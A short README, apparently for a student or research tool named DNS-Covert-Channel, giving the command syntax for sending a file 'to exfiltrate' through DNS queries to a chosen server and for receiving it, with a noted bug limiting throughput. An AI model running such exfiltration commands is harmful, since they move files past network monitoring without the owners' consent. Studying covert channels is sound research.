 # DNS-Covert-Channel
Due to an implementation bug this cover channel can only support
the transportation of 12 bytes per 1000 domain names.

Domain names are currently hardcoded in, no need to supply your own
## Use

### Sending
Proper syntax is ./main --fileIn <filepath> --dns <IP>
- filepath points to the file to exfiltrate
- IP is the DNS server to query

### Receiving
Proper syntax is ./main --fileOut <filepath> --dns <IP>
- filepath is the location to save the output
- IP is the DNS server to query